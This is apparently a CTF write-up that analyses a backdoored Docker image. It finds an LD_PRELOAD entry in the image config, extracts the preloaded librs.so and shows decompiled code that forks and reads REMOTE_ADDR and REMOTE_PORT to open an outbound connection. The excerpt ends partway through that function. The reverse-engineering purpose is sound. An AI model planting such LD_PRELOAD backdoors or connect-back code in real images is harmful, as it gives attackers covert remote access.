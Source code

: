 ```bash
    {
      "created": "2021-11-12T21:41:23.312026204Z",
      "created_by": "/bin/sh -c #(nop)  CMD [\"bin/bash\" \"-c\" \"/bin/bash\"]",
      "empty_layer": true
    }
  ],
  "os": "linux",
  "rootfs": {
    "type": "layers",
    "diff_ids": [
      "sha256:9f54eef412758095c8079ac465d494a2872e02e90bf1fb5f12a1641c0d1bb78b",
      "sha256:0a9080e8e7b0e66532e403a406ccdbc7c58fea8493928a3baaf5ca83e2943e26",
      "sha256:ff26ebc5902675b2764f7d6c70f4cf073d2c9ee50ad929648d2769871cafe441"
    ]
  }
}
```

Looking through the config file, there is some funky stuff going on with and `LD_PRELOAD`. We should probably look into the file that's being loaded there.

```bash
{
	"created": "2021-11-12T21:40:23.607982534Z",
	**"created_by": "/bin/sh -c #(nop)  ENV LD_PRELOAD=/usr/share/lib/librs.so"**,
	"empty_layer": true
}
```
    
 Untarring one of the layers, we can get the `librs.so` file so we can do some RE. 
 
```bash 
[~/peel-back-the-layers/extracted/7e418781d7dbe3c9982a8f00849d9494404dce6698e8ab6e82068f3f810212ca]$ tar -xvf layer.tar                                                                                              
x usr/
x usr/share/
x usr/share/lib/
x usr/share/lib/.wh..wh..opq
x usr/share/lib/librs.so
```

### Reverse Engineering of `librs.so`

Running through some prelim binary analysis steps...

```bash
[~/programming/ctfs/htb-uni-2021/peel-back-the-layers]$ file librs.so                                              
librs.so: ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, BuildID[sha1]=b6e2da9852ab0b8f7aa409d6c5cf0f3c133b5ed7, not stripped
```
Opening up `librs.so` in Binary Ninja, we are greeted with a pretty interesting `con()` function.

```c
00001195  int64_t con()
000011a5      if (fork() == 0)
000011b6          char* rax_1 = getenv(name: "REMOTE_ADDR")
000011ce          uint16_t rax_3 = atoi(nptr: getenv(name: "REMOTE_PORT"))
000011eb          int64_t var_68 = 0x33725f317b425448     /* HMMMM */
000011ef          int64_t var_60_1 = 0x6b316c5f796c6c34   /* HMMMM */
00001207          int64_t var_58_1 = 0x706d343374735f33   /* HMMMM */
0000120b          int64_t var_50_1 = 0x306230725f6b6e75   /* HMMMM */
00001219          int64_t var_48_1 = 0xd0a7d2121217374    /* HMMMM */
0000121d          char var_40_1 = 0
00001221          int16_t var_38 = 2
00001233          in_addr_t var_34_1 = inet_addr(cp: rax_1)
```